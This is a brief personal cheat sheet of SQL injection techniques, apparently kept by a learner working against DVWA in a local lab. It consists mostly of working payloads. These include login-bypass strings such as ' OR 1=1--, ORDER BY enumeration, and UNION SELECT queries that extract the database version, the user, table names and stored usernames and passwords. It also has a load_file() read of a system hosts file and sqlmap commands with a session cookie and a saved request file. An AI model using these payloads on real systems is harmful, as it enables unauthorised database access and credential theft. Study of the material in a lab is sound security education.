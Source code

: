 # start first with
Try to only put ' or “ in
try ``'`` in fields to check how it behaves

# if the first step works go with injection

``select * from users where email='$email' and password='pw'``
//ends with comment (``--``) to ignore rest  
``select * from users where email=' ' OR 1=1--' and password='pw' ``
2) ' OR 1=1--
3) ' OR 1=1; --
4) ' OR 1=1;#

## enumerate db
``id=1 order by 1``
* Then you can enumerate user automatically one by one

## union
//to get version
``id=1 union all select 1,2, @@version``
//to get database user
``id=1 union all select 1,2, user()``

//to get table schemas and treive some intersting column name
``id=1 union all select 1,2, table_name from information_schema.tables``
//column name for instance "users"
``id=1 union all select 1,2, table_name from information_schema.tables where table_Name='users'``

//we then for instance see columns usernames and passwords, can tackle it with:
``id=1 union all select 1,username,password from users``

# code execution to read and write files in the system
``id=1 union all select 1,2, load_file('C:/Windows/System32/drivers/etc/hosts')``

# sqlmap 

``sqlmap -cookie="security=high; PHPSESSID=a3a6968ac0cb1775f890061af0b42108"" -u “http://192.168.0.6/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#”``
* to just run in mysql and not maria db
``sqlmap -u “http://192.168.0.6/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#” --dbms=mysql``

* better to sent request trough ZAP proxy save the request somehwere and the to run it with the file:
``sqlmap -r "/home/kali/Documents/sqlinj.raw"``

* enumerate all sql tables to get an full reports of them
``sqlmap -r "/home/kali/Documents/sqlinj.raw" --tables``
